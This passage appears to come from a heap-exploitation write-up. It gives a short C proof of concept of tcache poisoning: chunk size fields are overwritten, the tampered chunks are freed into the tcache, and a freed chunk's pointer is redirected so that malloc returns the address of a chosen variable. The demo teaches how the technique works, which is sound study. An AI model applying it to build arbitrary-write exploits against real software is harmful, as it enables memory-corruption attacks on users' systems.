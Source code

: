 I put together this simple C - code which demonstrates everything:

```c
#include <string.h>
#include <stdlib.h>
#include <stdio.h>

#define LARGE 0x6f0
#define SMALL 0x308

int main(void)
{
    // our dummy target. We want to allocate a chunk at the address of `var`
    size_t var;

    // first allocate our reference block. In the real application we use this one to write / read the others
    void *r = malloc(LARGE);

    // setup some chunks, eventually we will be using a1 and a3 to setup the exploit, the others are "padding"
    void *a0 = malloc(LARGE);
    void *a1 = malloc(LARGE);
    void *a2 = malloc(LARGE);
    void *a3 = malloc(LARGE);
    void *a4 = malloc(LARGE);

    printf("r %p\n", r);
    printf("a0 %p\n", a0);
    printf("--> a1 %p\n", a1);
    printf("a2 %p\n", a2);
    printf("--> a3 %p\n", a3);
    printf("a4 %p\n", a4);

    // We free a0 because we are required to leak libc base address.
    // This is not done here but we can find the address at a0 after freeing this chunk
    free(a0);

    // Overwrite the sizes of a1 and a3 to fit into the tcache
    // also note that we set the P (previous in use) bits for each of them
    *(size_t*)(r + 2*(LARGE + 8) + 8) = SMALL + 8 | 1;
    *(size_t*)(r + 4*(LARGE + 8) + 24) = SMALL + 8 | 1;

    // freeing the tampered chunks will put them in the tcache
    free(a1);
    free(a3);

    // we can now place our target address in the second one
    // this is all it takes, no additional setup needed as this version of tcache does
    // not perform additional security checks
    *(size_t*)a3 = &var;

    void *junk = malloc(SMALL);
    void *target = malloc(SMALL);

    // finally our target chunk is located at &var
    printf("target @ %p\n", target);

    return 0;
}
```
